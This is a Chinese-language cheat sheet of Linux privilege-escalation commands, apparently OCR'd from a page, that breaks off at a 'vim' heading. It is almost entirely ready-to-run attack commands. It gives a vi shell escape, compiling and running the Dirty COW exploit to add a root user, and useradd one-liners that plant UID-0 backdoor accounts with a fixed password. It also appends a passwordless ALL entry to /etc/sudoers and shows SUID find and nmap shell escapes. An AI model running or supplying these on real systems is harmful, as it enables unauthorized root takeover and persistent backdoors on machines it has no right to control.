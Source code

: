 git 提权

```shell
#1. 不能 bash vi 绕过 https://mp.weixin.qq.com/s/601p15_1WpfyTIwfG62TAg
## 进入vi :set shell=/bin/bash 见 dc2 靶场
```

## dirtycow

```shell
gcc -pthread dirty.c -o dirty -lcrypt
./dirty 123456
# 添加用户 firefart/123456 为 root权限
# su firefart
```

**创建一个用户名 guest，密码 123456 的 root 用户**

```shell
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/mysqld
# M2
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest1 -g root -G root -s /bin/bash
sed -i '$aguest1 ALL=(ALL) NOPASSWD:ALL ' /etc/sudoers
# M3 https://mp.weixin.qq.com/s/0Df1Qad2foqqz5MdMYtlCA
```

## suid/各种程序启动 shell

[SUID 提权-硬盘搜:GTFOBins](#)

find

```sh
find / -user root -perm -4000 -print 2>/dev/null
# find / -perm -u=s -type f 2>/dev/null
# find / -user root -perm -4000 -exec ls -ldb {} \;

touch test_file.txt
find ./test_file.txt -exec whoami \;
```

nmap

```bash
# 5.2前
nmap --interactive
!sh

# 5.2后  创建shell.nse，内容为
os.execute('/bin/sh')
# 执⾏脚本
nmap --script=shell.nse
```

vim
